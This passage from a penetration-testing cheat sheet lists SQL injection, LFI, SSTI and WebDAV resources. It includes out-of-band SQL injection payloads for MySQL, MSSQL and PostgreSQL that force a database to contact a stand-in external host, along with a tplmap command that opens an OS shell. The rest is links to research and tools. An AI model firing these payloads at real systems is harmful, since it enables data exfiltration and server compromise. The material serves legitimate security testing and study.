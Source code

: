 <br># MySQL
<br>```'||(SELECT%20LOAD_FILE('\\xpto.example.com'))||'```

<br># Microsoft SQL Server
<br>```'+;EXEC('master..xp_dirtree"\\xpto.example.com\"');+'```
<br>```'+;EXEC('master..xp_fileexist"\\xpto.example.com\"');+'```
<br>```'+;EXEC('master..xp_subdirs"\\xpto.example.com\"');+'```

<br># PostgreSQL
<br>```'||;COPY%20users(names)%20FROM%20'\\xpto.example.com\';||'```

https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet
<br># This repository contains a advanced methodology of all types of SQL Injection.

### <a name="LDI-Manual"></a>LFI (Local File Inclusion)
https://bierbaumer.net/security/php-lfi-with-nginx-assistance/
<br># This post presents a new method to exploit local file inclusion (LFI) vulnerabilities in utmost generality, assuming only that PHP is running in combination with Nginx under a common standard configuration.

### <a name="SSTI"></a>SSTI (Server Side Template Injection)
https://www.youtube.com/watch?v=SN6EVIG4c-0
<br># Template Injections (SSTI) in 10 minutes

https://portswigger.net/research/server-side-template-injection
<br># Template engines are widely used by web applications to present dynamic data via web pages and emails. Unsafely embedding user input in templates enables Server-Side Template Injection, a frequently critical vulnerability that is extremely easy to mistake for Cross-Site Scripting (XSS), or miss entirely. Unlike XSS, Template Injection can be used to directly attack web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

https://github.com/epinna/tplmap
<br># Tplmap assists the exploitation of Code Injection and Server-Side Template Injection vulnerabilities with a number of sandbox escape techniques to get access to the underlying operating system.
<br>```tplmap.py --os-shell -u 'http://www.example.com/page?name=John'```

### <a name="WebDAV"></a>WebDAV (Web Distributed Authoring and Versioning)
http://www.webdav.org/cadaver/
<br># cadaver is a command-line WebDAV client for Unix.

https://github.com/cldrn/davtest
<br># This program attempts to exploit WebDAV enabled servers.

### Generic Tools
https://ahrefs.com/backlink-checker
<br># Try the free version of Ahrefs' Backlink Checker.

https://gchq.github.io/CyberChef/
<br># The Cyber Swiss Army Knife

https://packettotal.com/
<br># Pcap analysis and samples
